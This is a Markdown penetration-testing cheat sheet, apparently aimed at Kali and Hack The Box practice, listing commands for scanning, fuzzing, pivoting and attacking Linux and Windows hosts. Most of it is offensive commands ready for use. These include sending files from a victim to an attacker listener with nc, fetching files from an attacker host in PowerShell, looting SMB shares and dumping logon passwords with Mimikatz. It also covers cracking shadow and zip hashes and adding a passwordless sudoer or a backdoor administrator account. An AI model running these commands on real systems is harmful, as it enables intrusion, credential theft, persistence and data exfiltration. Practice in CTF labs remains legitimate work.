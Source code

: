 # Commands

## Kali

+ ### Shortcuts

    > **SSH**: SSH with Clear Password

    ```pwsh
    sshpass -p <PASSWORD> ssh <RUSER>@<RHOST>
    ```

+ ### Enumerating

    > **NMap**: Top Scan (Fast)

    ```pwsh
    nmap -Pn -n -v -sV -sC <RHOST>
    ```

    > **NMap**: Full Scan with Firewall Protection (Slow)

    ```pwsh
    nmap -sT -sU -sV -O -T4 -A -Pn --open --max-retries 3 --max-scan-delay 1s --defeat-rst-ratelimit --script-args unsafe=1 -oN <LPATH> <RHOST>
    ```

    > **LDAP**: Full Enumerating

    ```pwsh
    ldapsearch -x -h <RHOST> -D '' -w '' -b "DC=domain,DC=local"
    ```

    > **DirSearch**: Web Enumerating

    ```pwsh
    dirsearch -u http://<RHOST>:<RPORT>/ -t 16 -r -e txt,html,php,asp,aspx,jsp -f -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --exclude-texts="<TEXT>"
     ```


+ ### Fuzzing

    > **WFuzz**: Fuzzing HTTP POST Data

    ```pwsh
    wfuzz -c -z file,<FUZZ-FILE> -v --hs "<BAD-TEXT>" -d "<PARAMETER>=FUZZ" "http://<RHOS>:<RPORT>/<RPATH>"
    ```

+ ### Remote Access

    > **Remote Desktop Connection**:

    ```pwsh
    rdesktop <RHOST> -r disk:share=<RPATH>
    ```

    > **PowerShell Core**:

    ```pwsh
    > New-PSSession -Credential (Get-Credential) -ComputerName <RHOST> -Authentication Negotiate
    > Enter-PSSession 1
    ```

+ ### Looting

    > **SMBClient**: Download All Files

    ```pwsh
    smbclient '\\<RHOST>\<RPATH>' -c 'prompt OFF;recurse ON;lcd '.';mget *' -U 'User'
    ```

+ ### Compiling

    > x64 Compile

    ```pwsh
    x86_64-w64-mingw32-gcc Source.c -o File.exe
    ```

    > x86 Compile

    ```pwsh
    i686-w64-mingw32-gcc Source.c -o File.exe -lws2_32
    ```

+ ### File Transfer

    > **SCP**: Secure Copy with SSH

    ```pwsh
    scp <LPATH> <RUSER>@<RHOST>:<RPATH>
    ```

    > **IPP**: From Victm (Linux) to Kali

    ```pwsh
    Vict$ /dev/shm/ipp <LHOST> <LPORT> < <FILE>
    KALI$ nc -lvnp <LPORT> > <FILE>
    ```

    > **FTP**: From Kali to Victim (Linux)

    ```pwsh
    KALI$ pyftp
    Vict> echo "open 127.0.0.1 21\nuser anonymous anonymous\nbin\ncd <PATH>\nget <FILE>\nbye" | ftp -inv
    ```

    > **FTP**: From Kali to Victim (Windows)

    ```pwsh
    KALI$ pyftp
    Vict> echo OPEN <KALI> <KPORT> > FTP.txt
    Vict> echo USER anonymous >> FTP.txt
    Vict> echo CD <FOLDER> >> FTP.txt
    Vict> echo BIN >> FTP.txt
    Vict> echo GET <FILE> >> FTP.txt
    Vict> ftp -v -n -s:ftp.txt
    ```

+ ### Pivoting

    > **SShuttle**: VPN-Like Network Access

    > **Note:** Server must have python 2.3 or higher.

    ```pwsh
    sshuttle -r <RUSER>@<RHOST>:<RPORT> <RSubnet>/24
    ```

    > Dynamic with SSH & ProxyChains

    ```pwsh
    > ssh -N -D 127.0.0.1:9040 <RUSER>@<RHOST>
    > export PROXYCHAINS_SOCKS4=9040
    > export PROXYCHAINS_SOCKS5=9050
    > proxychains nmap -Pn -n -sV -sC 127.0.0.1
    ```

    > Forward Static with SSH: Kali => Victim A => Victim B

    ```pwsh
    ssh -N -L 127.0.0.1:<LPORT>:<THOST>:<TPORT> <RUSER>@<RHOST>
    ```

    > Reverse Static with SSH: Kali <= Victim A

    > Note: Usefull with Low Privilage Shells

    ```pwsh
    ssh -N -R <KALI>:<LPORT>:127.0.0.1:<RPORT> <ROOT>@<KALI>
    ```

+ ### Password Cracking

    > Passwd & Shadow Files

    ```pwsh
    > unshadow passwd shadow > passwords.txt
    > john passwords.txt
    ```

    > Protected Zip Files

    ```pwsh
    > zip2john file.zip > password.txt
    > john passwords.txt
    ```

---

## Linux

+ ### Shell Helpers

    > Fixing PATH Enviroment Variable

    ```pwsh
    export PATH=$PATH:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/bin:/sbin
    ```

    > Fixing TTY

    ```pwsh
    > python -c 'import pty; pty.spawn("/bin/sh")'
    > python -c 'import pty; pty.spawn("/bin/bash")'
    ```

+ ### Process List

    > List Running Process

    ```pwsh
    > ps aux
    > ps aux | grep <PROCESS-NAME>
    ```

+ ### Liseners

    > List Liseners

    ```pwsh
    > ss -antp | grep <PORT>
    ```

+ ### Add Local Sudoer

    > Using Sudoers File

    ```pwsh
    > adduser Hacker --force-badname
    > passwd Hacker1
    > echo 'Hacker  ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers
    > su - Hacker
    > sudo bash
    ```

---

## Windows

+ ### Download File

    > Inside PowerShell

    ```pwsh
    > Invoke-WebRequest -URI http://<LHOST>/<LPATH> -OutFile <FILE>
    ```

    > Inside Command Line

    ```pwsh
    > powershell -Command "& { (New-Object Net.WebClient).DownloadFile('http://<LHOST>/<LPATH>','<FILE>') }"
    > powershell -Command "Invoke-WebRequest -URI http://<LHOST>/<LPATH> -OutFile <FILE>"

    ```

+ ### Windows Enumeration

    > Using Net.exe

    ```pwsh
    > net user
    > net group
    ```

    > Using Mimikatz

    ```pwsh
    > mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
    ```

+ ### Add Local Administrator

    > Using Net.exe

    ```pwsh
    > net user Hacker Hacker1 /add
    > net localgroup administrators Hacker /add
    ```

---

## Hack The Box

+ ### Refresh Flags

    > User.txt

    ```pwsh
    gci -path c:\ -Recurse -ErrorAction SilentlyContinue -include user.txt
    ```

    > Root.txt

    ```pwsh
    gci -path c:\ -Recurse -ErrorAction SilentlyContinue -include root.txt
    ```
